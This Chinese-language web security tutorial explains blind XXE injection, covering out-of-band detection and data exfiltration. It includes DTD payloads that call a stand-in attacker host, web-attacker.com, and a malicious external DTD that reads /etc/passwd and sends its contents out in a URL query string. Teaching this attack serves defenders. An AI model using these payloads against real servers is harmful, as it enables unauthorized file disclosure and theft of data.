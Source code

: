 许多XXE漏洞实例都是盲注。这意味着应用程序不会在其响应中返回任何已定义的外部实体的值，因此无法直接检索服务器端文件。

XXE盲注仍然可以被检测和利用，但需要更先进的技术。有时可以使用带外技术（out-of-band）来查找漏洞并利用它们来泄露数据。有时，可能会触发XML解析错误，从而导致错误消息中的敏感数据泄露。

有两种广泛使用的方法查找和利用XXE盲注：

- 触发带外（out-of-band）网络交互，有时会泄露交互数据中的敏感数据。
- 触发XML分析错误，使错误消息包含敏感数据

#### Detecting blind XXE using out-of-band（OAST）techniques

通常，您可以使用与XXE SSRF攻击相同的技术来检测XXE盲注，但会触发与所控制系统的带外（out-of-band）网络交互。

```xml-dtd
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

然后，您将在XML中的数据值中使用定义的实体。

此XXE攻击会导致服务器向指定的URL发出后端HTTP请求。攻击者可以监视生成的**DNS查找和HTTP请求**，从而检测XXE攻击是否成功。

有时，由于应用程序的某些输入验证或正在使用的 XML 解析器的某些加固，使用常规实体的 XXE 攻击会被阻止。在这种情况下，你也许可以使用 XML 参数实体来代替。XML 参数实体是一种特殊的 XML 实体，只能在 DTD 的其他地方引用。就目前而言，您只需了解两件事。首先，XML 参数实体的声明包括实体名称前的百分号字符：

```xml-dtd
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，使用百分号字符而不是通常的&符号来引用参数实体：

```xml-dtd
%myparameterentity;
```

也就是说，可以通过xml参数实体使用带外检测来测试盲XXE，如下所示：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

此XXE payload 声明一个调用`xxe` 的XML参数实体，然后在DTD中使用该实体。这将导致对攻击者域的DNS查询和HTTP请求，以验证攻击是否成功。

### Exploiting blind XXE to exfiltrate data out-of-band

通过out-of-band技术检测 XXE盲注漏洞效果很好，但实际上并没有演示如何利用该漏洞。攻击者真正想要实现的是泄露敏感数据。这可以通过XXE盲注漏洞来实现！但它涉及攻击者在他们控制的系统上托管恶意DTD，然后从带内XXE有效负载中调用外部DTD。

恶意DTD泄露 /etc/passwd 文件内容的示例如下：

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

此DTD执行以下步骤：

- 定义一个名为`file`的XML参数实体，其中包含`/etc/passwd`文件的内容。
- 定义一个名为`eval`的XML参数实体，其中包含另一个名为`exfiltrate`的XML参数实体的动态声明。将通过向攻击者的Web服务器发出HTTP请求来评估该`exfiltrate`实体，该请求包含URL查询字符串中`file`实体的值。
- 使用`eval`实体，这将会导致执行`exfiltrate`实体得到动态声明。
- 使用实体`exfiltrate`，以便通过请求指定的URL来计算其值。
